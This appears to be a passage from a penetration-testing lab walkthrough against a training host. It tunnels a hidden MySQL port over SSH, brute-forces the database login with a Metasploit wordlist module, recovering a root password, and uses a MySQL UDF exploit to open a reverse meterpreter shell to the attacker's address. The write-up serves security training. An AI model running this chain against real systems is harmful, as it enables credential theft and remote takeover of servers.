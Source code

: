 We can observe MySQL is running on `localhost:mysql` (port `3306`). This is why we have not discovered the server. It is not exposed to the public IP address.

**Step 5**.

We can forward the port using SSH tunneling and access port `3306` on the attacker's machine local port.
Let's exit the SSH active session and forward the target local port `3306` to the attacker's machine port `1234` using ssh.

`ssh -4 -L 1234:127.0.0.1:3306 sysadmin@demo.ine.local`. [✓]

We can verify it by running the netstat command on the attacker machine.

`netstat -a | grep "1234"`: [✓]
```
tcp        0      0 localhost:1234          0.0.0.0:*               LISTEN ←
```

`nmap -sS -sV localhost -p1234`: [✓]
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-10 20:29 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000049s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1 ←

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

**Step 6**.

`search mysql login`, `use auxiliary/scanner/mysql/mysql_login`, `show options`, `set RHOSTS localhost`, `set RPORT 1234`, `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`, `set STOP_ON_SUCCESS true`, `set VERBOSE false`, `exploit`: [✓]
```
[+] 127.0.0.1:1234        - 127.0.0.1:1234 - Success: 'root:nirvana' ←
[*] localhost:1234        - Scanned 1 of 2 hosts (50% complete)
[*] localhost:1234        - Scanned 1 of 2 hosts (50% complete)
[*] localhost:1234        - Scanned 1 of 2 hosts (50% complete)
[*] localhost:1234        - Scanned 1 of 2 hosts (50% complete)
[*] localhost:1234        - Scanned 1 of 2 hosts (50% complete)
[*] localhost:1234        - Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
```

`search mysql udf`, `use exploit/multi/mysql/mysql_udf_payload`, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, `show options`, `set RHOSTS localhost`, `set RPORT 1234`, `set PASSWORD nirvana`, `set LHOST 192.122.196.2`, `set FORCE_UDF_UPLOAD false`, `show targets`, `set TARGET Linux`, `exploit -j`. [✓] 

**Step 7**.

`sessions -i 2`, `sysinfo`:
```
Computer     : demo.ine.local
OS           : Ubuntu 14.04 (Linux 5.4.0-152-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
